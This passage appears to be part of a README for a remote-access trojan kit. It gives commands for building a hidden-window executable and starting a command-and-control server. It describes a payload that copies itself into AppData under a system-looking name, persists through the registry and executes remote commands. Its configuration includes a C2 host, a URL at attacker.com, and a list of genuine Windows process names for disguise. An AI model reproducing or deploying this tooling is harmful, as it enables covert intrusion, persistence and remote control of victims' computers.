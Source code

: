 ### 2. Build Executable
```bash
# Install PyInstaller
pip install pyinstaller

# Build stealth executable
pyinstaller --noconsole --onefile stealth_payload_192.168.1.100_4444.py
```

### 3. Start C2 Server
```bash
# Start C2 server
python c2_server.py --host 0.0.0.0 --port 4444

# With custom encryption key
python c2_server.py --host 0.0.0.0 --port 4444 --key "MyCustomKey123!"
```

### 4. Deploy and Test
```bash
# Deploy the generated executable to target
# The payload will automatically:
# - Copy itself to AppData with system name
# - Set up registry persistence
# - Connect to C2 server
# - Execute commands remotely
```

## Configuration Options

### Basic Configuration
```python
LHOST = "192.168.1.100"          # C2 Server IP address
LPORT = 4444                     # C2 Server port number
PAYLOAD_NAME = "winupdate.exe"   # Filename for persistence copy
REG_KEY_NAME = "WindowsUpdate"   # Registry key name for persistence
ENCRYPTION_KEY = "NightStalker2024!"  # 16, 24, or 32 byte encryption key
```

### Communication Settings
```python
USE_HTTPS = False                # Use HTTPS instead of raw socket
C2_URL = "https://attacker.com/shell"  # HTTPS C2 URL (if USE_HTTPS=True)
```

### System Names (Auto-generated)
The payload builder can generate system-looking names:

**Filenames:**
- winupdate.exe, svchost.exe, lsass.exe, csrss.exe
- winlogon.exe, services.exe, spoolsv.exe, explorer.exe
- rundll32.exe, regsvr32.exe, msiexec.exe, wscript.exe
